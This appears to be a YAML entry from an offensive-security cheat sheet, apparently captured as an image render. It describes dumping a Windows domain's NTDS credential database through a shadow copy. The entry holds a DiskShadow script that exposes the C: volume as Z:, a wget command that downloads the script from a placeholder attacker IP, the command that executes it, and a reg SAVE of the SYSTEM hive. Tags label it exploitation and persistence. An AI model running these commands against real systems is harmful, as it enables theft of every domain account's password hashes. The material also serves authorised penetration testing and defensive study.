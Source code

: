 ```yaml
---
title: |
  Make NTDS backup by creating a shadow copy
description: |
  If you only have a (non-interactive) shell, creating the NTDS backup can also be done by creating a shadow copy

  DiskShadow script:

  	#for some reason there have to be spaces after each line

  	#Diskshadow script file

  	set verbose on

  	set context persistent nowriters

  	begin backup

  	add volume c: alias systemvolumeshadow

  	create

  	expose %systemvolumeshadow% Z:

  	end backup

  	#End of script
  
  Then download and execute this DiskShadow script:

  	wget http://<IP>/script.dsh -Out script.dsh

  	diskshadow /s script.dsh

  	reg SAVE HKLM\SYSTEM c:\Users\svc_backup\Documents\SYS

command: |
  See commands.
items:
  - Shell
OS:
  - Windows
attack_types:
  - Exploitation
  - Persistence
---
```

